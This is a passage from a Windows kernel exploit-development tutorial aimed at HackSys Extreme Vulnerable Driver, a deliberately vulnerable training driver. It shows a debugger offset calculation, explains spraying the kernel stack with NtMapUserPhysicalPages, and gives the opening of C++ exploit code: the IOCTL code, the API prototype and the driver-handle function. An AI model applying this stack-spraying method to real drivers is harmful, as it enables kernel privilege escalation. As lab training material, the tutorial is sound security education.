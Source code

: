 ```js
Stack Init 821c9ed0             <---------
````

```js
kd> ?821c9ed0 - 821c99ac
Evaluate expression: 1316 = 00000524
```

To spray stack we'll be using NtMapUserPhysicalPages

```js
BOOL WINAPI MapUserPhysicalPages(
_In_ PVOID lpAddress,
_In_ ULONG_PTR NumberOfPages,
_In_ PULONG_PTR UserPfnArray
);
```

With this API we can spray upto 1024 * sizeof(ULONG_PTR), more than our offset, so okay. Spray kernel stack with 0x414141...

```cpp
// Thanks h0mbre for the code

#include <Windows.h>
#include <winternl.h>
#include <stdio.h>

//
// Defining just our driver name that it uses for IoCreateDevice and also the IOCTL code we use to reach our vulnerable function
#define DEVICE_NAME     "\\\\.\\HackSysExtremeVulnerableDriver"
#define IOCTL           0x22202F

//
// Here we are creating a prototype of the NtMapUserPhysicalPages, we are using the struct member types that tekwizz123 uses, I couldn't get any other definition to work
typedef NTSTATUS(WINAPI* _NtMapUserPhysicalPages)(
    PINT BaseAddress,
    UINT32 NumberOfPages,
    PBYTE PageFrameNumbers);

//
// This function simply retrieves a handle to HEVD, this should be standard at this point based on our previous exploits; however, you can see how much easier it is
// to use Visual C++ and have access to the keywords vs. finding constants for these values and using Python C-types

HANDLE Get_Handle()
{
    HANDLE HEVD = CreateFileA(DEVICE_NAME,
        FILE_READ_ACCESS | FILE_WRITE_ACCESS,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        NULL, OPEN_EXISTING,
        FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
        NULL);

    if (HEVD == INVALID_HANDLE_VALUE)
    {
        printf("[!] Unable to retrieve handle for HEVD, last error: %d\n", GetLastError());
        exit(1);
    }

    printf("[*] Successfully retrieved handle to HEVD: %X\n", HEVD);
    return HEVD;
}
```